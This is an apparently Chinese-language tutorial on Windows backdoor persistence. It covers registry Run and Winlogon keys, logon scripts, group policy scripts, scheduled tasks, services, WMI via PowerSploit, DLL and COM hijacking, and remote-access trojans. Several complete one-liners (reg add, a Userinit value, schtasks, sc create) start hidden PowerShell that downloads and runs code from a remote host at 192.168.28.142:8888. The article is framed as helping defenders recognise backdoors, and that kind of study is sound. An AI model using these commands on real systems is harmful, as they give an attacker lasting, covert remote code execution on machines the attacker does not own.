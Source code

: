 
关键词：Windows系统后门、权限维持

在获取服务器权限后，通常会用一些后门技术来维持服务器权限，服务器一旦被植入后门，攻击者便如入无人之境。本文将对常见的window服务端自启动后门技术进行解析，知己知彼方能杜绝后门。

**0x01 注册表自启动**

通过修改注册表自启动键值，添加一个木马程序路径，实现开机自启动。

常用的注册表启动键：

```
# Run键 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon

类似的还有很多,关键词：注册表启动键值。
```

使用以下命令可以一键实现无文件注册表后门：

`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f`

**Logon Scripts 后门**

注册表路径：HKEY_CURRENT_USER\Environment\

创建字符串键值：  UserInitMprLogonScript，键值设置为bat的绝对路径：`c:\test.bat`

**userinit后门**

在用户进行登陆时，winlogon运行指定的程序。根据官方文档,可以更改它的值来添加与删除程序。

利用USERINIT注册表键实现无文件后门：

~~~
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
 
"Userinit"="C:\\Windows\\system32\\userinit.exe,C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""
~~~

**0x02 组策略设置脚本启动**

运行gpedit.msc进入本地组策略，通过Windows设置的“脚本(启动/关机)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。

![](./image/privilege-4-3.png)

容易遇到的问题：脚本需全路径，如`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe `

**0x03 计划任务**

通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：

~~~
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.28.142:8888/logo.gif\"\"\"))\""
~~~

容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。

计划脚本每 1 分钟运行一次。

![](./image/privilege-4-4.png)

**0x04 服务自启动**

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

~~~
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name                            //启动服务
~~~

成功创建了一个自启动服务

![](./image/privilege-4-5.png)

**0x05 WMI后门**

在2015年的blackhat大会上Matt Graeber介绍了一种无文件后门就是用的WMI。这里可以利用一个工具powersploit，下面用它的Persistence模块来示范一个简单的例子。

~~~
Import-Module .\Persistence\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
~~~

**0x06 dll劫持**

如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这个DLL；如果攻击者能够控制其中的某一 个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意的DLL便会被进程所加载，从而造成代码执行。

比较常用的如LPK.dll的劫持：

win7及win7以上系统增加了KnownDLLs保护，需要在注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

下添加 “lpk.dll” 才能顺利劫持：

![](./image/privilege-4-6.png)

**0x07 COM劫持**

利用COM劫持技术，最为关键的是dll的实现以及CLSID的选择，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。这种方法可以绕过Autoruns对启动项的检测。

![](./image/privilege-4-7.png)

**0x08 远程控制**

远控木马是一种恶意程序，其中包括在目标计算机上用于管理控制的后门。远程访问木马通常与用户请求的程序（如游戏程序）一起，是一种看不见的下载，或作为电子邮件附件发送。一旦主机系统被攻破，入侵者可以利用它来向其他易受感染的计算机分发远程访问木马，从而建立僵尸网络。

一般分为客户端和服务端，如：灰鸽子、上兴远控、梦想时代、QuasarRAT等。

![](./image/privilege-4-8.png)

**0x09 结束语**

未知攻焉知防，本文分享了几种Window下的自动启权限维持技术。管理员在平时运维过程应当保持警惕，掌握一定的入侵排查技巧，及时进行系统补丁更新，定期对服务器安全检查，才能有效地预防后门。

